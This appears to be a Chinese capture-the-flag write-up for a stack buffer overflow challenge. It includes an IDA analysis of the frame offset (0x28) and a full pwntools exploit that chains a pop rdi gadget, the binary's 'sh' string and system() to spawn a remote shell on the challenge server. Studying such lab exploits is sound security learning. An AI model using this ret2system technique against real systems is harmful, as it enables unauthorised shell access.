




- IDA分析附件main函数：
    
    
    调用了`help`函数以及通过read读取256字节的输入数据存放入栈
    通过对栈帧结构分析：函数开头`push rbp`保存的旧 rbp 占 8 字节，后续`mov rbp,rsp`建立新栈帧，`sub rsp,20h`为局部变量分配了 0x20的栈缓冲区。因此，从缓冲区起始到返回地址的偏移量为 0x28

- 查看help函数：
    
    可以看到help通过system函数打印出字符串“Maybe you need this: sh”，这里就等于提示我们了只需要将该字符串替换为sh即可

- EXP：
    ```python
    from pwn import *

    # p = process('./pwn')
    p = remote("nc1.ctfplus.cn", 33925)
    elf = ELF('./pwn')


    pop_rdi_ret = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
    ret_gadget = ROP(elf).find_gadget(['ret'])[0] 
    sh_str = next(elf.search(b'sh'))  
    system_addr = elf.sym['system']

    print("system_addr: ", hex(system_addr))
    print("sh_str: ", hex(sh_str))
    print("pop_rdi_ret: ", hex(pop_rdi_ret))
    print("ret_gadget: ", hex(ret_gadget))


    offset = 0x28


    payload = b'A' * offset
    payload += p64(pop_rdi_ret)
    payload += p64(sh_str)
    payload += p64(ret_gadget)  
    payload += p64(system_addr)

    p.recv(4096)
    p.send(payload)
    p.interactive()
    ```
    